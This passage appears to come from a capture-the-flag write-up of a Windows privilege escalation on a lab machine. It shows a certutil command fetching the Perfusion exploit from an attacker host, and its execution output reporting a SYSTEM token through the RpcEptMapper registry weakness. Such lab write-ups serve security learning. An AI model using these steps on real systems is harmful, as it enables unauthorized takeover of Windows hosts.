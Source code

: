 ![Alt text](/images/Retro2/sysinfo.png)

During my reaseach , i found this blog of [ntm4n : An Unconventional Exploit for the RpcEptMapper Registry Key Vulnerability](https://itm4n.github.io/windows-registry-rpceptmapper-exploit/).

now let's compile [`Perfusion`](https://github.com/itm4n/Perfusion) , and transfer it to the target.
```sh
certutil.exe -urlcache -f http://10.8.7.122/Perfusion.exe Perfusion.exe
```
```shell
PS C:\temp> ls


    Directory: C:\temp


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---         9/21/2025   2:56 PM      34816 Perfusion.exe


PS C:\temp> .\Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\LDAPRE~1\AppData\Local\Temp\2\performance_2936_1
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[+] Exploit completed. Got a SYSTEM token! :)
[*] Waiting for the Trigger Thread to terminate... OK
[!] Failed to delete Performance registry key.
[*] Deleted Performance DLL.
```